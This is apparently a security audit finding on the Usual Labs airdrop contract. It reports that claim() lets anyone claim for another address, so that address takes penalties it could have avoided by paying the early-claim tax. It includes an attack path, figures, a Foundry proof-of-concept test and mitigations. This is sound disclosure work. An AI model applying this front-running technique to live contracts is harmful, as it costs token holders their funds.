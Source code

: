 Cold Canvas Tortoise

High

# The `claim()` function allows anyone to claim on behalf of another address, forcing them to incur penalties they could have avoided

### Summary

The [intended option for Tax Paid Early Claim (Top 80% - Tax paid)](https://usual.gitbook.io/usual-technical-documentation/Aw3jUdIChYIRnEPcqUqK/smart-contracts/protocol-contracts/airdrop-module#:~:text=Tax%20Paid%20Early%20Claim%20(Top%2080%25%20%2D%20Tax%20paid)%3A%20These%20users%2C%20while%20originally%20part%20of%20a%20vesting%20schedule%2C%20can%20pay%20a%20tax%20to%20skip%20the%20vesting.%20Once%20the%20tax%20is%20paid%2C%20they%20can%20claim%20the%20total%20amount%20directly%20without%20waiting%20for%20monthly%20releases.) users is to allow these users to pay tax in other to skip the vesting. Once the tax is paid, they can claim the total amount directly without waiting for monthly releases but the [claim function](https://github.com/sherlock-audit/2024-10-usual-labs-v1/blob/main/pegasus/packages/solidity/src/airdrop/AirdropDistribution.sol#L314) can be front-run thereby allowing the intended claimer to incures penalty they they would have avoided

### Root Cause

_No response_

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

The Optimal Path for Alice:
- Pay tax early (before any claims)
- Claim full amount immediately (bypass vesting)
- Receive 100% of tokens with no penalties


Bob's Attack Makes This Impossible:
- Bob can front-run Alice's intended tax payment
- Forces her into the vesting schedule
- Each claim without tax payment incurs penalties
- Once a claim is made, Alice can't use the tax-paid instant vesting feature for the remaining lost tokens


The intended claim after each month
Alice amount = 4_866_160_317_000_000_000_000_000_000
Months = 6
total claimable by Alice at `12th Jan 2025 12:00:00 GMT+0000` without fees = Alice amount / Months `(811_026_719_500_000_000_000_000_000)`
total claimable by Alice at `12th Jan 2025 12:00:00 GMT+0000` without 50% fees due to penalty = Alice amount / Months `(405_513_359_750_000_000_000_000_000)`

Bob claims for Alice, and Alice incures 50% fees.

ALICE PAID TAX AND CLAIMS THE REMAINING AMOUNT
Alice claim = Alice amount - ([Alice Already claimed amount + penalty](https://github.com/sherlock-audit/2024-10-usual-labs-v1/blob/main/pegasus/packages/solidity/src/airdrop/AirdropDistribution.sol#L338)) = `4_460_646_957_250_000_000_000_000_000`

### Impact

Forcing unintended users to pay penalties, and after paying tax the the user already incure the penalty.


### PoC

```solidity
function testBobFrontrunningAttack() external {
        vm.warp(FIRST_AIRDROP_VESTING_CLAIMING_DATE);
        bytes32[] memory aliceProof = _aliceProof();

        uint256 penalty = 5000; // 50%
        uint256[] memory penalties = new uint256[](1);
        penalties[0] = penalty;
        address[] memory accounts = new address[](1);
        accounts[0] = alice;

        vm.startPrank(airdropPenaltyOperator);
        airdropDistribution.setPenaltyPercentages(penalties, accounts, 1);
        airdropDistribution.setPenaltyPercentages(penalties, accounts, 2);
        vm.stopPrank();

        // Bob claims on Alice's behalf before she pays tax
        vm.prank(bob);
        airdropDistribution.claim(alice, true, aliceAmount, aliceProof);
        // Alice balance after claiming
        uint256 aliceBalanceAfter = usualToken.balanceOf(alice);
        assertLt(aliceBalanceAfter, aliceAmount);

        vm.startPrank(airdropOperator);
        address[] memory addressesToAllocateTo = new address[](1);
        addressesToAllocateTo[0] = alice;
        uint256[] memory prelaunchBalances = new uint256[](1);
        prelaunchBalances[0] = aliceAmount;
        airdropTaxCollector.setUsd0ppPrelaunchBalances(addressesToAllocateTo, prelaunchBalances);
        vm.stopPrank();
        
        //Even if Alice pays tax now...
        vm.startPrank(alice);
        uint256 taxToPay = airdropTaxCollector.calculateClaimTaxAmount(alice);
        deal(address(usd0PP), alice, taxToPay);
        usd0PP.approve(address(airdropTaxCollector), taxToPay);
        airdropTaxCollector.payTaxAmount();

        vm.warp(SECOND_AIRDROP_VESTING_CLAIMING_DATE);
        airdropDistribution.claim(alice, true, aliceAmount, aliceProof);
        vm.stopPrank();
        assertLt(usualToken.balanceOf(alice), aliceAmount);
    }
```

### Mitigation

- Implementing claim authorization to restrict claims to the account owner

or

- Allowing tax payment to retroactively reclaim penalized tokens
